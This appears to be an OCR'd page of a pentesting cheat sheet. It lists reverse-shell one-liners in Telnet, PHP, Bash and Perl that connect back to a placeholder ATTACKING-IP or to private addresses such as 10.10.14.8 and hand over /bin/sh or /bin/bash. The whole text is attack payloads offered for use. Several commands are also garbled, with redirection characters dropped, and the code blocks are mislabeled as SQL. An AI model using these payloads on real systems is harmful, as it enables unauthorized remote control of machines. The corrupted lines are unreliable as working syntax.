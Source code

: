  ```powershell
 ```
	
	
## **Telnet Reverse Shell**

```sql
rm -f /tmp/p; mknod /tmp/p p && telnet ATTACKING-IP 80 0/tmp/p
```

```sql
telnet ATTACKING-IP 80 | /bin/bash | telnet ATTACKING-IP 443
```


## **PHP**
-   (Assumes TCP uses file descriptor 3. If it doesn’t work, try 4,5, or 6)
	```sql
	php -r '$sock=fsockopen("ATTACKING-IP",80);exec("/bin/sh -i <&3 >&3 2>&3");'
	```


## **Bash**
```sql
bash -c "bash -i & /dev/tcp/10.10.14.8/443 0>&1"
```

```sql
exec /bin/bash 0&0 2>&0
```

```sql
0<&196;exec 196<>/dev/tcp/ATTACKING-IP/80; sh <&196 >&196 2>&196
```

```sql
exec 5<>/dev/tcp/ATTACKING-IP/80 cat <&5 | while read line; do $line 2>&5 >&5; done
```

```sql
bash -i >& /dev/tcp/ATTACKING-IP/80 0>&
```

```sql
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.11.0.4 1234 >/tmp/f
```


## **Perl**

```perl
    exec "/bin/sh";
```

```sql
perl —e 'exec "/bin/sh";'
```

```sql
    perl -e 'use Socket;$i="ATTACKING-IP";$p=80;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```
- Windows
	```sql
	perl -MIO -e '$c=new IO::Socket::INET(PeerAddr,"ATTACKING-IP:80");STDIN->fdopen($c,r);$~->fdopen($c,w);system$_ while<>;'
	```
